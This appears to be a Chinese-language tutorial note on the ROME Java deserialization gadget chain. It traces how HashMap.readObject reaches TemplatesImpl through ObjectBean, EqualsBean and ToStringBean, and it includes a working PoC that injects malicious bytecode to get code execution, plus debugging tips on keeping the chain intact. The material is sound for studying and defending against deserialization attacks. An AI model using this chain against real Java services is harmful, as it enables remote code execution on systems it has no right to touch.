









# Java 反序列化系列链条 1

## 1. Rome 链

1. ROME 是一个功能完备的 Java 框架，专为 RSS（Really Simple Syndication）和 Atom feeds 的生成与解析而设计。它由多个模块组成，包括基础的 RSS 和 Atom 处理，以及对 MediaRSS、GeoRSS 等扩展的支持，甚至还有用于处理 OPML 文件的工具。总的来讲，就是一个可以兼容多种格式的 feeds 解析器，可以从一种格式转换成另一种格式，也可返回指定格式或 Java 对象。
2. Atom feeds 和 RSS 相似，不过其格式是 XML。

### 1.1 chain1 - `ObjectBean`

1. 先看一下官方的说明：

    > Convenience class providing clone(), toString(), equals() and hashCode() functionality for Java Beans.
    > 对 Java Beans 做了一个功能拓展。
    > It uses the CloneableBean, EqualsBean and ToStringBean classes in a delegation pattern.
    > 也就是说，`ObjectBean` 是使用委托模式设计的类，其中有三个成员变量：`CloneableBean`、`EqualsBean` 和 `ToStringBean`，从而提供上述说的 `clone(), toString(), equals() and hashCode()` 方法。

    这里补充一下委托模式，第一次听说该模式：

    > 委托是一种动态绑定机制，允许一个对象在其内部使用另一个对象的功能，而不是通过继承或组合的方式直接拥有这些功能。委托通过定义一个接口，并在委托类中持有该接口的实现类实例，来间接调用这些实现类的方法。这种方式类似于 C# 中的委托，但在 Java 中，通常通过接口和类来实现。

    简单来讲，可以举个例子：
    ```java
    // 1. 先创建一个接口，包含被委托的方法
    public interface Delegate {
        void doAction();
    }
    // 2. 创建一个接口的实现类，他就是落实委托的人
    public class Actor implements Delegate {
        @Override
        public void doAction() {
            System.out.println("我来落实委托的事情");
        }
    }
    // 3. 创建委托类，也就是委托人
    public class Delegator implements Delegate {
        private Delegate delegate;
    
        // 通过构造方法来寻找落实的人
        public Delegator(Delegate delegate) {
            this.delegate = delegate;
        }
    
        // 叫负责人来落实事情
        @Override
        public void doAction() {
            delegate.doAction();
        }
    }
    // 4. 叫人委托
    public static void main(String[] args) {
        // 创建落实的人
        Delegate Actor = new Actor();
        // 创建委托人，并让他找到落实的人
        Delegator delegator = new Delegator(Actor);
        // 让委托人处理事情，委托人最终会找到负责人干活
        delegator.doAction();
    }
    ```

    可以看出，如果传入的落实的人不同（也就是委托人寻找不同的解决方式的人），那么结果也不一样，因此当需要动态改变行为的时候，用委托模式。而且委托模式的继承关系不明显，具体算优点还是缺点得看情况。

    回到 `ObjectBean`，看其构造函数：
    
    其初始化时提供了 `Class` 类型和一个 `Object` 对象实例进行封装。同时在下面的构造函数中，体现他的委派的特性。

2. 来看他的 `hashCode` 方法，其会调用 `EqualsBean` 的 `beanHashCode` 方法：
    
    跟进去：
    
    这里的 `obj` 可以回溯到他的构造函数，它就是 `ObjectBean` 所封装的对象。

3. 记住它会调用 `obj.toString()`。

### 1.2 chain2 - `ToStringBean`

1. 这个类给所修饰的对象提供一个 `toString()` 方法，它共有两个 `toString()` 方法。先来看第一个 `toString()`，该方法没有参数：
    
    可以看到，其获取 `obj` 属性中保存对象的类名，并调用第二个 `toString()` 有参方法：
    
    可以看到，其会获取所有的 getter 方法，然后拿到全部属性值并打印出来。具体来讲的话，先跟进 `BeanIntrospector.getPropertyDescriptorsWithGetters`：
    
    跟进 `getPropertyDescriptors()`：
    
    再跟：
    
    因此，`ToStringBean` 的 `toString()` 最终会触发 `obj` 的全部 getter。
2. 回想 CC2 的 sink，CC2 中使用 `TemplatesImpl.newTransformer()` 来触发 `private` 的 `TemplatesImpl.getTransletInstance()`。现在 `TemplatesImpl#getOutputProperties()` 中会调用 `TemplatesImpl.newTransfomer()`：
    
    这样就会触发漏洞了。

### 1.3 PoC 编写

1. PoC 如下：
    ```java
    // Rome 版本 1.11.1
    @Test
    public void romeTest() throws NoSuchFieldException, NotFoundException, IOException, CannotCompileException, IllegalAccessException {
        // 1. 读取恶意类 bytes[] 并 sink 构造
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
        byte[] bytes = ctClass.toBytecode();
        TemplatesImpl templates = new TemplatesImpl();
        // 要求 1 - 注入恶意字节码
        Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates, new byte[][]{bytes});
        // 要求 2 - 保证 _name 不为 null
        Field nameField = templates.getClass().getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "EndlessShw");
        // 2. 构造 chain，先让链断开
        ObjectBean objectBean = new ObjectBean(String.class, "EndlessShw");
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, new ToStringBean(Templates.class, templates));
        // 3. 构造 kick-off HashMap
        HashMap<Object, String> objectBeanStringHashMap = new HashMap<>();
        objectBeanStringHashMap.put(objectBean, "EndlessShw");
        // 4. 动态修改 ObjectBean 中的 EqualsBean
        Field equalsBeanField = objectBean.getClass().getDeclaredField("equalsBean");
        equalsBeanField.setAccessible(true);
        equalsBeanField.set(objectBean, equalsBean);
        String serialize = serialize(objectBeanStringHashMap);
        unSerialize(serialize);
    }
    ```

2. 链的调用过程如下：
    ```java
    /*
    	HashMap.readObject()
    		ObjectBean.hashCode()
                EqualsBean.beanHashCode()
                    ToStringBean.toString()
                        Templates.getOutputProperties()
                            TemplatesImpl.newTransfomer()
                                ...
    */
    ```

3. 写 PoC 的时候遇到了一个好玩的事情：
    `EqualsBean equalsBean = new EqualsBean(ToStringBean.class, new ToStringBean(templates.getClass(), templates));`
    当时脑子一热，用的 `templates.getClass()`，从而 `ToStringBean` 最终会调用 `TemplatesImpl` 中的 getter，但是这样会调用 `TemplatesImpl#getStylesheetDOM()`，这个方法在反序列化过程中调用时，其类中变量 `_sdom` 是未初始化的，会报空指针异常，从而导致链的断开。
    **所以以后遇到这种 getter/setter 反序列化时需要多注意实现类的 `getClass()` 动态加载和接口的 `.class` 静态加载。**

4. Rome 版本高于 1.11.1 时，`ObjectBean` 没了。
